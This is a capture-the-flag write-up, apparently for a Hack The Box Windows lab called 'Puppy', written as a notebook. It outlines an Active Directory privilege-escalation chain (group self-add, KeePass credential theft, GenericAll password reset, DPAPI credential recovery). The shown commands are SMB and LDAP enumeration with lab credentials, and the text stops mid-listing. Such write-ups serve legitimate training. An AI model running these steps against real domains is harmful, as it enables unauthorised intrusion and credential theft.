



# week1-puppy

## Engagement Notes

This was purely a Windows challenge. It starts with enumerating services, with a couple duds hidden in the mix to distract it seems.

The foothold involves using the provided user "levi.james" to crawl ldap and ultimately leverage bloodhound to enumerate other users and groups, which reveals that Levi has permissions as an HR user to add themselves to the "Developer" group which has SMB access to the dev share with a keepass db. That DB has other passwords for other identified users like ant.edwards which has GenericAll access to adam.silver. Adam's account is disabled and needs to be re-enabled to access the winrm functionality as Adam is a member of the Remote Desktop users group. I changed his password to validate write access and am unsure if the provided password would have worked. 

With this user, we can access a backup directory which reveals a saved credential for steph.cooper which has a dpapi stored credential file with steph.cooper_adm admin account which reveals the final flag.

# Initial Enumeration

### Set variables for further engagement


```python
import requests
from pprint import pprint

source =! ip address | grep tun | grep 10 | tr "/" " " | awk '{print $2}'
public_source = requests.get('https://ifconfig.co/ip').text
target = 'puppy.htb'

print(f"source: {source}")
print(f"target: {target}")
```

    source: ['10.10.14.28']
    target: puppy.htb


### Port scan target


```python
!docker run -it --rm -v $(pwd):/app/target rustscan -a $target

```

 
    You miss 100% of the ports you don't scan. - RustScan
    
    [~] The config file is expected to be at "/home/rustscan/.rustscan.toml"
    [!] File limit is lower than default batch size. Consider upping with --ulimit. May cause harm to sensitive servers
    [!] Your file limit is very small, which negatively impacts RustScan's speed. Use the Docker image, or up the Ulimit with '--ulimit 5000'. 
    Open 10.129.110.146:53
    Open 10.129.110.146:88
    Open 10.129.110.146:111
    Open 10.129.110.146:135
    Open 10.129.110.146:139
    Open 10.129.110.146:389
    Open 10.129.110.146:445
    Open 10.129.110.146:464
    Open 10.129.110.146:593
    Open 10.129.110.146:636
    Open 10.129.110.146:2049
    Open 10.129.110.146:3260
    Open 10.129.110.146:3268
    Open 10.129.110.146:3269
    Open 10.129.110.146:5985
    Open 10.129.110.146:9389
    Open 10.129.110.146:49667
    Open 10.129.110.146:49669
    Open 10.129.110.146:49670
    Open 10.129.110.146:49664
    Open 10.129.110.146:49685
    Open 10.129.110.146:49703
    Open 10.129.110.146:49715
    [~] Starting Script(s)
    [~] Starting Nmap 7.93 ( https://nmap.org ) at 2025-05-17 19:16 UTC
    Initiating Ping Scan at 19:16
    Scanning 10.129.110.146 [2 ports]
    Completed Ping Scan at 19:16, 3.00s elapsed (1 total hosts)
    Nmap scan report for 10.129.110.146 [host down, received no-response]
    Read data files from: /usr/bin/../share/nmap
    Note: Host seems down. If it is really up, but blocking our ping probes, try -Pn
    Nmap done: 1 IP address (0 hosts up) scanned in 3.03 seconds
    


We find many LDAP related ports and smb ports. 3260 and 2049 are respectively iscsi and nfs. 135 is the RPC port. 445 is SMB. 5985 is winrm http. 5986 is winrm https. 636 is LDAP over SSL. 3268 is global catalog LDAP. 3269 is global catalog LDAP over SSL.


Since we have levi's credentials and an open SMB Port, we enumerate here as well.


```python
!smbmap -H $target -u 'levi.james' -p 'KingofAkron2025!'
```

    
        ________  ___      ___  _______   ___      ___       __         _______
       /"       )|"  \    /"  ||   _  "\ |"  \    /"  |     /""\       |   __ "\
      (:   \___/  \   \  //   |(. |_)  :) \   \  //   |    /    \      (. |__) :)
       \___  \    /\  \/.    ||:     \/   /\   \/.    |   /' /\  \     |:  ____/
        __/  \   |: \.        |(|  _  \  |: \.        |  //  __'  \    (|  /
       /" \   :) |.  \    /:  ||: |_)  :)|.  \    /:  | /   /  \   \  /|__/ \
      (_______/  |___|\__/|___|(_______/ |___|\__/|___|(___/    \___)(_______)
    -----------------------------------------------------------------------------
    SMBMap - Samba Share Enumerator v1.10.7 | Shawn Evans - ShawnDEvans@gmail.com
                         https://github.com/ShawnDEvans/smbmap
    
    [*] Detected 1 hosts serving SMB
    [*] Established 1 SMB connections(s) and 1 authenticated session
    [+] IP: 10.129.110.146:445	Name: puppy.htb           	Status: Authenticated
    	Disk                                                  	Permissions	Comment
    	----                                                  	-----------	-------
    	ADMIN$                                            	NO ACCESS	Remote Admin
    	C$                                                	NO ACCESS	Default share
    	DEV                                               	NO ACCESS	DEV-SHARE for PUPPY-DEVS
    	IPC$                                              	READ ONLY	Remote IPC
    	NETLOGON                                          	READ ONLY	Logon server share 
    	SYSVOL                                            	READ ONLY	Logon server share 
    ...


We can further enumerate with enum4linux, however later I'll also do a better enum4linux-ng which will reveal more.


```python
!enum4linux -u 'levi.james' -p 'KingofAkron2025!' -w 'puppy' $target -a
```

    WARNING: polenum is not in your path.  Check that package is installed and your PATH is sane.
    Starting enum4linux v0.9.1 ( http://labs.portcullis.co.uk/application/enum4linux/ ) on Sat May 17 12:22:26 2025
    
     =========================================( Target Information )=========================================
    
    Target ........... puppy.htb
    RID Range ........ 500-550,1000-1050
    Username ......... 'levi.james'
    Password ......... 'KingofAkron2025!'
    Known Usernames .. administrator, guest, krbtgt, domain admins, root, bin, none
    
    
     =============================( Enumerating Workgroup/Domain on puppy.htb )=============================
    
    
    [+] Got domain/workgroup name: puppy
    
    
     =====================================( Session Check on puppy.htb )=====================================
    
    
    [+] Server puppy.htb allows sessions using username 'levi.james', password 'KingofAkron2025!'
    
    
     ==================================( Getting domain SID for puppy.htb )==================================
    
    Can't load /etc/samba/smb.conf - run testparm to debug it
    Domain Name: PUPPY
    Domain Sid: S-1-5-21-1487982659-1829050783-2281216199
    
    [+] Host is part of a domain (not a workgroup)
    
    enum4linux complete on Sat May 17 12:22:29 2025
    


Since we have ldap ports and ldapsearch, we can also use levi's account to start enumerating users and groups.


```python
!ldapsearch -H ldap://puppy.htb -x -w 'KingofAkron2025!' -D 'levi.james@puppy.htb' -b 'dc=puppy,dc=htb' -s sub -x "(objectclass=user)"
# adam.silver user parameters
# ICAgICAgICAgICAgICAgICAgICAgICAgICAgICAgICAgICAgICAgICAgICAgICAgUAQaCAFDdHhDZmdQcmVzZW5045S15pSx5oiw44GiGAgBQ3R4Q2ZnRmxhZ3Mx44Cw44Gm44Cy44C5EggBQ3R4U2hhZG9344Cw44Cw44Cw44CwKgIBQ3R4TWluRW5jcnlwdGlvbkxldmVs44Sw

```

```
    # extended LDIF
    #
    # LDAPv3
    # base <dc=puppy,dc=htb> with scope subtree
    # filter: (objectclass=user)
    # requesting: ALL
    #
    
    # Administrator, Users, PUPPY.HTB
    dn: CN=Administrator,CN=Users,DC=PUPPY,DC=HTB
    objectClass: top
    objectClass: person
    objectClass: organizationalPerson
    objectClass: user
    cn: Administrator
    description: Built-in account for administering the computer/domain
    distinguishedName: CN=Administrator,CN=Users,DC=PUPPY,DC=HTB
    instanceType: 4
    whenCreated: 20250219114512.0Z
    whenChanged: 20250512232946.0Z
    uSNCreated: 8196
    memberOf: CN=Group Policy Creator Owners,CN=Users,DC=PUPPY,DC=HTB
    memberOf: CN=Domain Admins,CN=Users,DC=PUPPY,DC=HTB
    memberOf: CN=Enterprise Admins,CN=Users,DC=PUPPY,DC=HTB
    memberOf: CN=Schema Admins,CN=Users,DC=PUPPY,DC=HTB
    memberOf: CN=Administrators,CN=Builtin,DC=PUPPY,DC=HTB
    uSNChanged: 147540
    name: Administrator
    objectGUID:: dz7raIuZRUSHbobwIRQqfg==
    userAccountControl: 1114624
    badPwdCount: 2
    codePage: 0
    countryCode: 0
    badPasswordTime: 133920096211801477
    lastLogoff: 0
    lastLogon: 133920079428050736
    pwdLastSet: 133844672083208878
    primaryGroupID: 513
    objectSid:: AQUAAAAAAAUVAAAAQ9CwWJ8ZBW3HmPiH9AEAAA==
    adminCount: 1
    accountExpires: 9223372036854775807
    logonCount: 114
    sAMAccountName: Administrator
    sAMAccountType: 805306368
    objectCategory: CN=Person,CN=Schema,CN=Configuration,DC=PUPPY,DC=HTB
    isCriticalSystemObject: TRUE
    dSCorePropagationData: 20250219120125.0Z
    dSCorePropagationData: 20250219120125.0Z
    dSCorePropagationData: 20250219114616.0Z
    dSCorePropagationData: 16010101181216.0Z
    lastLogonTimestamp: 133912841685013288
    
    # Guest, Users, PUPPY.HTB
    dn: CN=Guest,CN=Users,DC=PUPPY,DC=HTB
    objectClass: top
    objectClass: person
    objectClass: organizationalPerson
    objectClass: user
    cn: Guest
    description: Built-in account for guest access to the computer/domain
    distinguishedName: CN=Guest,CN=Users,DC=PUPPY,DC=HTB
    instanceType: 4
    whenCreated: 20250219114512.0Z
    whenChanged: 20250219114512.0Z
    uSNCreated: 8197
    memberOf: CN=Guests,CN=Builtin,DC=PUPPY,DC=HTB
    uSNChanged: 8197
    name: Guest
    objectGUID:: z5mcuqAVNUqFUnXz4X+nxA==
    userAccountControl: 66082
    badPwdCount: 2
    codePage: 0
    countryCode: 0
    badPasswordTime: 133920096218519974
    lastLogoff: 0
    lastLogon: 0
    pwdLastSet: 0
    primaryGroupID: 514
    objectSid:: AQUAAAAAAAUVAAAAQ9CwWJ8ZBW3HmPiH9QEAAA==
    accountExpires: 9223372036854775807
    logonCount: 0
    sAMAccountName: Guest
    sAMAccountType: 805306368
    objectCategory: CN=Person,CN=Schema,CN=Configuration,DC=PUPPY,DC=HTB
    isCriticalSystemObject: TRUE
    dSCorePropagationData: 20250219114616.0Z
    dSCorePropagationData: 16010101000001.0Z
    
    # DC, Domain Controllers, PUPPY.HTB
    dn: CN=DC,OU=Domain Controllers,DC=PUPPY,DC=HTB
    objectClass: top
    objectClass: person
    objectClass: organizationalPerson
    objectClass: user
    objectClass: computer
    cn: DC
    distinguishedName: CN=DC,OU=Domain Controllers,DC=PUPPY,DC=HTB
    instanceType: 4
    whenCreated: 20250219114615.0Z
    whenChanged: 20250509174302.0Z
    uSNCreated: 12293
    uSNChanged: 131106
    name: DC
    objectGUID:: B9ycA7OUskWQvbBSa9O39g==
    userAccountControl: 532480
    badPwdCount: 2
    codePage: 0
    countryCode: 0
    badPasswordTime: 133920096224457501
    lastLogoff: 0
    lastLogon: 133920082125706413
    localPolicyFlags: 0
    pwdLastSet: 133912841255481408
    primaryGroupID: 516
    objectSid:: AQUAAAAAAAUVAAAAQ9CwWJ8ZBW3HmPiH6AMAAA==
    accountExpires: 9223372036854775807
    logonCount: 213
    sAMAccountName: DC$
    sAMAccountType: 805306369
    operatingSystem: Windows Server 2022 Standard
    operatingSystemVersion: 10.0 (20348)
    serverReferenceBL: CN=DC,CN=Servers,CN=Default-First-Site-Name,CN=Sites,CN=Con
     figuration,DC=PUPPY,DC=HTB
    dNSHostName: DC.PUPPY.HTB
    rIDSetReferences: CN=RID Set,CN=DC,OU=Domain Controllers,DC=PUPPY,DC=HTB
    servicePrincipalName: iSCSITarget/DC
    servicePrincipalName: iSCSITarget/DC.PUPPY.HTB
    servicePrincipalName: TERMSRV/DC
    servicePrincipalName: TERMSRV/DC.PUPPY.HTB
    servicePrincipalName: Dfsr-12F9A27C-BF97-4787-9364-D31B6C55EB04/DC.PUPPY.HTB
    servicePrincipalName: ldap/DC.PUPPY.HTB/ForestDnsZones.PUPPY.HTB
    servicePrincipalName: ldap/DC.PUPPY.HTB/DomainDnsZones.PUPPY.HTB
    servicePrincipalName: DNS/DC.PUPPY.HTB
    servicePrincipalName: GC/DC.PUPPY.HTB/PUPPY.HTB
    servicePrincipalName: RestrictedKrbHost/DC.PUPPY.HTB
    servicePrincipalName: RestrictedKrbHost/DC
    servicePrincipalName: RPC/2bea3ff3-b80d-42a2-8a63-39ee389db252._msdcs.PUPPY.HT
     B
    servicePrincipalName: HOST/DC/PUPPY
    servicePrincipalName: HOST/DC.PUPPY.HTB/PUPPY
    servicePrincipalName: HOST/DC
    servicePrincipalName: HOST/DC.PUPPY.HTB
    servicePrincipalName: HOST/DC.PUPPY.HTB/PUPPY.HTB
    servicePrincipalName: E3514235-4B06-11D1-AB04-00C04FC2DCD2/2bea3ff3-b80d-42a2-
     8a63-39ee389db252/PUPPY.HTB
    servicePrincipalName: ldap/DC/PUPPY
    servicePrincipalName: ldap/2bea3ff3-b80d-42a2-8a63-39ee389db252._msdcs.PUPPY.H
     TB
    servicePrincipalName: ldap/DC.PUPPY.HTB/PUPPY
    servicePrincipalName: ldap/DC
    servicePrincipalName: ldap/DC.PUPPY.HTB
    servicePrincipalName: ldap/DC.PUPPY.HTB/PUPPY.HTB
    objectCategory: CN=Computer,CN=Schema,CN=Configuration,DC=PUPPY,DC=HTB
    isCriticalSystemObject: TRUE
    dSCorePropagationData: 20250219114616.0Z
    dSCorePropagationData: 16010101000001.0Z
    lastLogonTimestamp: 133912841365239978
    msDS-SupportedEncryptionTypes: 28
    msDS-GenerationId:: IqN0H7d2Fow=
    msDFSR-ComputerReferenceBL: CN=DC,CN=Topology,CN=Domain System Volume,CN=DFSR-
     GlobalSettings,CN=System,DC=PUPPY,DC=HTB
    
    # krbtgt, Users, PUPPY.HTB
    dn: CN=krbtgt,CN=Users,DC=PUPPY,DC=HTB
    objectClass: top
    objectClass: person
    objectClass: organizationalPerson
    objectClass: user
    cn: krbtgt
    description: Key Distribution Center Service Account
    distinguishedName: CN=krbtgt,CN=Users,DC=PUPPY,DC=HTB
    instanceType: 4
    whenCreated: 20250219114615.0Z
    whenChanged: 20250219120125.0Z
    uSNCreated: 12324
    memberOf: CN=Denied RODC Password Replication Group,CN=Users,DC=PUPPY,DC=HTB
    uSNChanged: 12787
    showInAdvancedViewOnly: TRUE
    name: krbtgt
    objectGUID:: pRYLPkatGkeYHTfzD25WTw==
    userAccountControl: 514
    badPwdCount: 2
    codePage: 0
    countryCode: 0
    badPasswordTime: 133920096230862993
    lastLogoff: 0
    lastLogon: 0
    pwdLastSet: 133844391755922139
    primaryGroupID: 513
    objectSid:: AQUAAAAAAAUVAAAAQ9CwWJ8ZBW3HmPiH9gEAAA==
    adminCount: 1
    accountExpires: 9223372036854775807
    logonCount: 0
    sAMAccountName: krbtgt
    sAMAccountType: 805306368
    servicePrincipalName: kadmin/changepw
    objectCategory: CN=Person,CN=Schema,CN=Configuration,DC=PUPPY,DC=HTB
    isCriticalSystemObject: TRUE
    dSCorePropagationData: 20250219120125.0Z
    dSCorePropagationData: 20250219114616.0Z
    dSCorePropagationData: 16010101000416.0Z
    msDS-SupportedEncryptionTypes: 0
    
    # Levi B. James, MANPOWER, PUPPY.HTB
    dn: CN=Levi B. James,OU=MANPOWER,DC=PUPPY,DC=HTB
    objectClass: top
    objectClass: person
    objectClass: organizationalPerson
    objectClass: user
    cn: Levi B. James
    sn: James
    givenName: Levi
    initials: B
    distinguishedName: CN=Levi B. James,OU=MANPOWER,DC=PUPPY,DC=HTB
    instanceType: 4
    whenCreated: 20250219121056.0Z
    whenChanged: 20250518021806.0Z
    displayName: Levi B. James
    uSNCreated: 12798
    memberOf: CN=HR,DC=PUPPY,DC=HTB
    uSNChanged: 176241
    name: Levi B. James
    objectGUID:: 2UDSk6IBfU2UQ8vUlLk8rg==
    userAccountControl: 66048
    badPwdCount: 5
    codePage: 0
    countryCode: 0
    badPasswordTime: 133862719957678511
    lastLogoff: 0
    lastLogon: 133862126521858625
    pwdLastSet: 133844406569969717
    primaryGroupID: 513
    objectSid:: AQUAAAAAAAUVAAAAQ9CwWJ8ZBW3HmPiHTwQAAA==
    accountExpires: 9223372036854775807
    logonCount: 1
    sAMAccountName: levi.james
    sAMAccountType: 805306368
    managedObjects: OU=MANPOWER,DC=PUPPY,DC=HTB
    userPrincipalName: levi.james@PUPPY.HTB
    objectCategory: CN=Person,CN=Schema,CN=Configuration,DC=PUPPY,DC=HTB
    dSCorePropagationData: 20250509173106.0Z
    dSCorePropagationData: 20250219131504.0Z
    dSCorePropagationData: 16010101000416.0Z
    lastLogonTimestamp: 133920082868206836
    msDS-SupportedEncryptionTypes: 0
    
    # Anthony J. Edwards, PUPPY.HTB
    dn: CN=Anthony J. Edwards,DC=PUPPY,DC=HTB
    objectClass: top
    objectClass: person
    objectClass: organizationalPerson
    objectClass: user
    cn: Anthony J. Edwards
    sn: Edwards
    givenName: Anthony
    initials: J
    distinguishedName: CN=Anthony J. Edwards,DC=PUPPY,DC=HTB
    instanceType: 4
    whenCreated: 20250219121314.0Z
    whenChanged: 20250321053316.0Z
    displayName: Anthony J. Edwards
    uSNCreated: 12807
    memberOf: CN=DEVELOPERS,DC=PUPPY,DC=HTB
    memberOf: CN=SENIOR DEVS,CN=Builtin,DC=PUPPY,DC=HTB
    uSNChanged: 94250
    name: Anthony J. Edwards
    objectGUID:: x6FSB985RE+hYLmXqzCKaQ==
    userAccountControl: 66048
    badPwdCount: 2
    codePage: 0
    countryCode: 0
    homeDirectory: C:\Users\ant.edwards
    badPasswordTime: 133920096257426489
    lastLogoff: 0
    lastLogon: 133862719954400121
    pwdLastSet: 133844407944654314
    primaryGroupID: 513
    objectSid:: AQUAAAAAAAUVAAAAQ9CwWJ8ZBW3HmPiHUAQAAA==
    accountExpires: 9223372036854775807
    logonCount: 0
    sAMAccountName: ant.edwards
    sAMAccountType: 805306368
    userPrincipalName: ant.edwards@PUPPY.HTB
    objectCategory: CN=Person,CN=Schema,CN=Configuration,DC=PUPPY,DC=HTB
    dSCorePropagationData: 20250219133305.0Z
    dSCorePropagationData: 20250219131555.0Z
    dSCorePropagationData: 16010101000417.0Z
    lastLogonTimestamp: 133870087963865374
    
    # Adam D. Silver, Users, PUPPY.HTB
    dn: CN=Adam D. Silver,CN=Users,DC=PUPPY,DC=HTB
    objectClass: top
    objectClass: person
    objectClass: organizationalPerson
    objectClass: user
    cn: Adam D. Silver
    sn: Silver
    givenName: Adam
    initials: D
    distinguishedName: CN=Adam D. Silver,CN=Users,DC=PUPPY,DC=HTB
    instanceType: 4
    whenCreated: 20250219121623.0Z
    whenChanged: 20250518024929.0Z
    displayName: Adam D. Silver
    uSNCreated: 12814
    memberOf: CN=DEVELOPERS,DC=PUPPY,DC=HTB
    memberOf: CN=Remote Management Users,CN=Builtin,DC=PUPPY,DC=HTB
    uSNChanged: 176276
    name: Adam D. Silver
    objectGUID:: 6XTdGwRTsk6ta8cxNx8K6w==
    userAccountControl: 66050
    badPwdCount: 2
    codePage: 0
    countryCode: 0
    homeDirectory: C:\Users\adam.silver
    badPasswordTime: 133920096263989166
    lastLogoff: 0
    lastLogon: 133863842265461471
    pwdLastSet: 133920101694768929
    primaryGroupID: 513
    userParameters:: ICAgICAgICAgICAgICAgICAgICAgICAgICAgICAgICAgICAgICAgICAgICAgI
     CAgUAQaCAFDdHhDZmdQcmVzZW5045S15pSx5oiw44GiGAgBQ3R4Q2ZnRmxhZ3Mx44Cw44Gm44Cy44
     C5EggBQ3R4U2hhZG9344Cw44Cw44Cw44CwKgIBQ3R4TWluRW5jcnlwdGlvbkxldmVs44Sw
    objectSid:: AQUAAAAAAAUVAAAAQ9CwWJ8ZBW3HmPiHUQQAAA==
    adminCount: 1
    accountExpires: 9223372036854775807
    logonCount: 6
    sAMAccountName: adam.silver
    sAMAccountType: 805306368
    userPrincipalName: adam.silver@PUPPY.HTB
    objectCategory: CN=Person,CN=Schema,CN=Configuration,DC=PUPPY,DC=HTB
    dSCorePropagationData: 20250309210803.0Z
    dSCorePropagationData: 20250228212238.0Z
    dSCorePropagationData: 20250219143627.0Z
    dSCorePropagationData: 20250219142657.0Z
    dSCorePropagationData: 16010101000000.0Z
    lastLogonTimestamp: 133863576267401674
    
    # Jamie S. Williams, Users, PUPPY.HTB
    dn: CN=Jamie S. Williams,CN=Users,DC=PUPPY,DC=HTB
    objectClass: top
    objectClass: person
    objectClass: organizationalPerson
    objectClass: user
    cn: Jamie S. Williams
    sn: Williams
    givenName: Jamie
    initials: S
    distinguishedName: CN=Jamie S. Williams,CN=Users,DC=PUPPY,DC=HTB
    instanceType: 4
    whenCreated: 20250219121726.0Z
    whenChanged: 20250309201147.0Z
    displayName: Jamie S. Williams
    uSNCreated: 12821
    memberOf: CN=DEVELOPERS,DC=PUPPY,DC=HTB
    uSNChanged: 49198
    name: Jamie S. Williams
    objectGUID:: UhI9I/UlykqYpVTWFdiGew==
    userAccountControl: 66048
    badPwdCount: 2
    codePage: 0
    countryCode: 0
    badPasswordTime: 133920096269926855
    lastLogoff: 0
    lastLogon: 0
    pwdLastSet: 133844410465595414
    primaryGroupID: 513
    objectSid:: AQUAAAAAAAUVAAAAQ9CwWJ8ZBW3HmPiHUgQAAA==
    accountExpires: 9223372036854775807
    logonCount: 0
    sAMAccountName: jamie.williams
    sAMAccountType: 805306368
    userPrincipalName: jamie.williams@PUPPY.HTB
    objectCategory: CN=Person,CN=Schema,CN=Configuration,DC=PUPPY,DC=HTB
    dSCorePropagationData: 20250309201147.0Z
    dSCorePropagationData: 20250219142641.0Z
    dSCorePropagationData: 20250219141107.0Z
    dSCorePropagationData: 20250219140831.0Z
    dSCorePropagationData: 16010101000000.0Z
    lastLogonTimestamp: 133856002855431158
    
    # Stephen W. Cooper, PUPPY ADMINS, PUPPY.HTB
    dn: CN=Stephen W. Cooper,OU=PUPPY ADMINS,DC=PUPPY,DC=HTB
    objectClass: top
    objectClass: person
    objectClass: organizationalPerson
    objectClass: user
    cn: Stephen W. Cooper
    sn: Cooper
    givenName: Stephen
    initials: W
    distinguishedName: CN=Stephen W. Cooper,OU=PUPPY ADMINS,DC=PUPPY,DC=HTB
    instanceType: 4
    whenCreated: 20250219122100.0Z
    whenChanged: 20250509174523.0Z
    displayName: Stephen W. Cooper
    uSNCreated: 12834
    memberOf: CN=Remote Management Users,CN=Builtin,DC=PUPPY,DC=HTB
    uSNChanged: 131113
    name: Stephen W. Cooper
    objectGUID:: vUiPugbDhUqPmb8/nfTFMg==
    userAccountControl: 66048
    badPwdCount: 2
    codePage: 0
    countryCode: 0
    homeDirectory: C:\Users\Steph.cooper
    badPasswordTime: 133920096276956594
    lastLogoff: 0
    lastLogon: 133859220352735738
    pwdLastSet: 133844412600597180
    primaryGroupID: 513
    objectSid:: AQUAAAAAAAUVAAAAQ9CwWJ8ZBW3HmPiHUwQAAA==
    accountExpires: 9223372036854775807
    logonCount: 1
    sAMAccountName: steph.cooper
    sAMAccountType: 805306368
    userPrincipalName: steph.cooper@PUPPY.HTB
    objectCategory: CN=Person,CN=Schema,CN=Configuration,DC=PUPPY,DC=HTB
    dSCorePropagationData: 20250509174523.0Z
    dSCorePropagationData: 16010101000000.0Z
    lastLogonTimestamp: 133856002853708357
    msDS-SupportedEncryptionTypes: 0
    
    # Stephen A. Cooper_adm, PUPPY ADMINS, PUPPY.HTB
    dn: CN=Stephen A. Cooper_adm,OU=PUPPY ADMINS,DC=PUPPY,DC=HTB
    objectClass: top
    objectClass: person
    objectClass: organizationalPerson
    objectClass: user
    cn: Stephen A. Cooper_adm
    sn: Cooper_adm
    givenName: Stephen
    initials: A
    distinguishedName: CN=Stephen A. Cooper_adm,OU=PUPPY ADMINS,DC=PUPPY,DC=HTB
    instanceType: 4
    whenCreated: 20250308155040.0Z
    whenChanged: 20250321053343.0Z
    displayName: Stephen A. Cooper
    uSNCreated: 45124
    memberOf: CN=Administrators,CN=Builtin,DC=PUPPY,DC=HTB
    uSNChanged: 94259
    name: Stephen A. Cooper_adm
    objectGUID:: ICw7sRofj0Sy4WOf8YTm1g==
    userAccountControl: 66048
    badPwdCount: 2
    codePage: 0
    countryCode: 0
    badPasswordTime: 133920096284769169
    lastLogoff: 0
    lastLogon: 0
    pwdLastSet: 133859226402824295
    primaryGroupID: 513
    objectSid:: AQUAAAAAAAUVAAAAQ9CwWJ8ZBW3HmPiHVwQAAA==
    adminCount: 1
    accountExpires: 9223372036854775807
    logonCount: 0
    sAMAccountName: steph.cooper_adm
    sAMAccountType: 805306368
    userPrincipalName: steph.cooper_adm@PUPPY.HTB
    objectCategory: CN=Person,CN=Schema,CN=Configuration,DC=PUPPY,DC=HTB
    dSCorePropagationData: 20250308162637.0Z
    dSCorePropagationData: 16010101000000.0Z
    lastLogonTimestamp: 133870088233868902
    
    # search reference
    ref: ldap://ForestDnsZones.PUPPY.HTB/DC=ForestDnsZones,DC=PUPPY,DC=HTB
    
    # search reference
    ref: ldap://DomainDnsZones.PUPPY.HTB/DC=DomainDnsZones,DC=PUPPY,DC=HTB
    
    # search reference
    ref: ldap://PUPPY.HTB/CN=Configuration,DC=PUPPY,DC=HTB
    
    # search result
    search: 2
    result: 0 Success
    
    # numResponses: 14
    # numEntries: 10
    # numReferences: 3
```

Some automation to clean out readable information. This is all a jupyter notebook at the time of compiling this writeup, so this will continue to be a mix of python and shell. Remember that anything after `!<command>` is a shell command being ran.


```python
groups = !ldapsearch -H ldap://puppy.htb -x -w 'KingofAkron2025!' -D 'levi.james@puppy.htb' -b 'dc=puppy,dc=htb' -s sub -x "(objectclass=group)" sAMAccountName | grep sAMAccountName
pprint(groups)
```
```
    ['# requesting: sAMAccountName ',
     'sAMAccountName: Administrators',
     'sAMAccountName: Users',
     'sAMAccountName: Guests',
     'sAMAccountName: Print Operators',
     'sAMAccountName: Backup Operators',
     'sAMAccountName: Replicator',
     'sAMAccountName: Remote Desktop Users',
     'sAMAccountName: Network Configuration Operators',
     'sAMAccountName: Performance Monitor Users',
     'sAMAccountName: Performance Log Users',
     'sAMAccountName: Distributed COM Users',
     'sAMAccountName: IIS_IUSRS',
     'sAMAccountName: Cryptographic Operators',
     'sAMAccountName: Event Log Readers',
     'sAMAccountName: Certificate Service DCOM Access',
     'sAMAccountName: RDS Remote Access Servers',
     'sAMAccountName: RDS Endpoint Servers',
     'sAMAccountName: RDS Management Servers',
     'sAMAccountName: Hyper-V Administrators',
     'sAMAccountName: Access Control Assistance Operators',
     'sAMAccountName: Remote Management Users',
     'sAMAccountName: Storage Replica Administrators',
     'sAMAccountName: Domain Computers',
     'sAMAccountName: Domain Controllers',
     'sAMAccountName: Schema Admins',
     'sAMAccountName: Enterprise Admins',
     'sAMAccountName: Cert Publishers',
     'sAMAccountName: Domain Admins',
     'sAMAccountName: Domain Users',
     'sAMAccountName: Domain Guests',
     'sAMAccountName: Group Policy Creator Owners',
     'sAMAccountName: RAS and IAS Servers',
     'sAMAccountName: Server Operators',
     'sAMAccountName: Account Operators',
     'sAMAccountName: Pre-Windows 2000 Compatible Access',
